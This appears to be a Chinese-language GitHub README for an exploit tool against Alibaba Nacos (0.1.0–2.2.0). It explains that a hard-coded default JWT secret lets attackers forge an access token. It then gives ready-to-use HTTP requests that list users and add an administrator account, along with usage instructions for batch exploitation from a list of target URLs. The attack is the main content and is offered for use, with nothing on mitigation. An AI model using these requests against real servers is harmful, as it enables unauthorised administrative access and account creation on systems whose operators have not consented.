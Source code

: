 
### 漏洞原理

好多大佬都分享过了，这里就简单说下：

Nacos漏洞版本`/conf` 默认配置文件 `application.properties ` 中，`nacos.core.auth.default.token.secret.key` 使用了硬编码，使用该key可构造jwt进行token认证。

认证成功后获得`accessToken` ，使用`accessToken` 可对Naocs进行任意操作（这不废话么，已经登录了）

### 影响范围

0.1.0 <= Nacos <= 2.2.0

### 工具思路
既然登录后使用`accessToken`可以进行任意操作，那直接查看管理员或者干脆新增用户登录不就得了么，这里加上认证成功后的token 直接使用CVE-2021-29441的payload读取用户列表和新增系统用户，如下：

查看用户列表
```http
GET /nacos/v1/auth/users?pageNo=1&pageSize=9 HTTP/1.1
Host: xxx
accessToken: xxxxxx
```
新增管理员
```http
POST /nacos/v1/auth/users HTTP/1.1
Host: xxx
Content-Type: application/x-www-form-urlencoded
accessToken: xxx
Content-Length: 27

username=fuck&password=fuck
```

### Tools Usage

```shell
_____                 ____      ___         _ _   _____     _
|   | |___ ___ ___ ___|    \ ___|  _|___ _ _| | |_|_   _|___| |_ ___ ___
| | | | .'|  _| . |_ -|  |  | -_|  _| .'| | | |  _| | | | . | '_| -_|   |
|_|___|__,|___|___|___|____/|___|_| |__,|___|_|_|   |_| |___|_,_|___|_|_|

Alibaba Nacos Default Token身份认证绕过 author: Dghpi9
vul version: 0.1.0 <= Nacos <= 2.2.0
Usage:
 -u http://192.168.0.1:8848 -g  读取用户列表
 -u http://192.168.0.1:8848 -a  新增系统用户
 -f url.txt -g  批量读取用户列表
 -f url.txt -a  批量新增用户
Options:
  -u string
        指定单个目标
  -f string
        传入文件列表
  -g    读取用户列表
  -a    新增系统用户
```

